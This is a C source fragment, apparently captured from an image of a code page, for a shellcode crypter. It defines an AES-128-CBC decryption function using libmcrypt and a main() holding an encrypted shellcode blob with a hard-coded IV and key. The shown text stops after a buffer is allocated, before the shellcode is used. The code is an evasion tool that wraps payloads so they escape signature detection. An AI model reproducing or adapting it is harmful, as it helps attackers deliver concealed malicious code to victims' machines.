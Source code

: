 ```c
int AES_DECRYPT(
    void* buffer,
    int buffer_len,
    char* IV, 
    char* key,
    int key_len 
){
  /*
  *	 mcrypt_module_open function associates the algorithm and the mode specified [Algorithm: rijndael-128, mode: CBC]
  *	 Returns an encryption descriptor, or MCRYPT_FAILED on error
  */
  MCRYPT td = mcrypt_module_open("rijndael-128", NULL, "cbc", NULL);
  int blocksize = mcrypt_enc_get_block_size(td);

  // buffer_len should be k*algorithms_block_size if used in a mode which operated in blocks (cbc, ecb, nofb)
  if( buffer_len % blocksize != 0 ){return 1;}
  
  // initializes all buffers for the specified thread
  mcrypt_generic_init(td, key, key_len, IV);
 
  // The decryption function. Returns 0 on success. 
  mdecrypt_generic(td, buffer, buffer_len);

  // This function terminates encryption specified by the encryption descriptor (td). Actually it clears all buffers.
  mcrypt_generic_deinit (td);

  // This function closes the modules used by the descriptor td.
  mcrypt_module_close(td);
  
  return 0;
}

int main()
{
  MCRYPT td;

  // Encrypted shellcode
  char * encr_shellcode = \
  "\xb4\x35\x28\x01\x6b\xfc\xf1\x8d\x01\x06\xf3\xc7\x23\x3e\xdd\xd9\x54\xc4\xa2\xa1\xe9\x9f\x2e\x67\x7c\x88\xae\x58\x5d\x40\x32\x3a\x74\x0b\xe6\x49\xd8\xa6\x16\x8c\x4b\x90\x6b\xd5\xfb\x7f\x2c\x95\x68\xcc\x91\xf4\xe7\xea\x8e\x9c\xc6\x4c\xb7\x72\x3b\x8d\x51\x50";
  
  int ctr;
  int shellcode_len;
  shellcode_len = strlen(encr_shellcode);
 
  // Initializaion Vector
  char* IV = "BLEHBLAHBLEHBLAH";

  // Encryption Key
  char *key = "ub3r53cr3t435k3y";
  int keysize = 16; /* 128 bits */
  char* buffer;

  // must be larger than or equal to shellcode length and should be k*algorithms_block_size if used in a mode which operated in blocks (cbc, ecb, nofb)
  // CBC in this case
  int buffer_len = 64;

  buffer = calloc(1, buffer_len);
```